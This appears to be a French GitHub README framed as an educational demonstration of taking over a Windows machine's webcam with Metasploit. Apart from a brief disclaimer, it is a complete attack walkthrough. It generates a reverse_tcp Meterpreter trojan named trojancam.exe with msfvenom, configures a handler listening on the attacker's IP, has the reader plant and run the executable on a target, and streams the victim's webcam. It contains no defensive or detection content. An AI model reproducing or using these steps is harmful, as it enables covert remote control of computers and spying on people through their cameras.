 # 🎯 Contrôle de Webcam via Meterpreter – Démonstration Éducative

Ce projet démontre comment établir une session Meterpreter sur une machine Windows cible afin d'accéder à sa webcam. Il est destiné à des fins éducatives et de sensibilisation à la cybersécurité.

## 🧰 Outils utilisés

- Metasploit Framework (préinstallé sur Kali Linux)​
- Python 3 (pour l'envoi du payload)​
- Wireshark (optionnel, pour l'analyse du trafic réseau)​
- Ettercap (optionnel, pour les attaques de type Man-in-the-Middle)

## ⚠️ Avertissement
Ce projet est destiné à des fins éducatives uniquement. L'utilisation de ces techniques sans le consentement explicite des parties concernées est illégale et contraire à l'éthique. L'auteur décline toute responsabilité en cas d'utilisation abusive.

## 🚀 Étapes pour reproduire l'attaque

### 1. Générer le Payload avec Metasploit
Utiliser ```msfvenom``` pour créer un exécutable malveillant qui établira une connexion inversée vers votre machine Kali :
```msfvenom -p windows/meterpreter/reverse_tcp LHOST={ip locale attaquant} LPORT=4444 -f exe -o trojancam.exe```
- LHOST : adresse IP de votre machine Kali​
- LPORT : port d'écoute sur Kali (4444 par défaut)

### 2. Configurer un listener sur Kali (port d'écoute)
Lancer Metasploit et configurer un handler pour écouter les connexions entrantes :
```msfconsole```
Puis après lancement de Metasploit dans le terminal :
```use exploit/multi/handler```
```set payload windows/meterpreter/reverse_tcp```
```set LHOST 192.168.1.51```
```set LPORT 4444```
```exploit```

### 3. Déployer le payload sur la machine cible
Transférer trojancam.exe sur la machine cible et l'exécuter. Cela établira une session Meterpreter entre la cible et la machine Kali.

### 4. Accéder à la Webcam de la Cible
Une fois la session Meterpreter établie, activer la webcam de la cible :​
```webcam_stream```
Cela ouvrira une interface web diffusant le flux vidéo de la webcam de la cible.

## Crédits

[iciamyplant/camera_hack](https://github.com/iciamyplant/camera_hack)
Répertoire initial qui m'a permis de comprendre le fonctionnement de Metasploit.
